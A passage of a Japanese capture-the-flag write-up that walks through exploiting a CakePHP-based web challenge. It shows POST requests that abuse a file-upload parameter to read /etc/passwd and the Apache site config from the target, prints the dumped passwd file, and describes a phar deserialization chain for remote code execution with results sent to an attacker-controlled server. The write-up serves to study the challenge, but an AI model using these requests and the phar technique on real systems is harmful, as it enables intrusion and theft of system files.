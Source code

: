 ```php
        if ($filename) {
            $part->filename($filename);
        }
        $this->add($part);

        return $part;
    }
```
以下で`/etc/passwd`が得られたらしい。  
```txt
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/passwd
```

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
orange:x:1001:1001:,,,:/home/orange:/bin/bash
```
以下で`000-default.conf`を読みだしてWebrootを確認すると`/var/www/html`であることがわかる。  
```txt
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/apache2/sites-enabled/000-default.conf
```
```txt
<VirtualHost *:80>
	...

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	...
</VirtualHost>
```
このWebサイトの機能として、アクセスした先のbodyの内容を`body.cache`に格納してくれるので、`phar`の内容を書き込んで`phar:///var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(URL)/body.cache`として読み込めば`unserialize`されてRCEできる！  
コマンドの実行結果は`?url=`で指定するIPに送信できる！  
したがって、攻撃者の用意したサーバー上に`exploit.phar`を用意してそこにアクセスさせれば、`/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache`に`exploit.phar`の内容が書き込まれて、それを`phar://`で読み込んでRCEする！  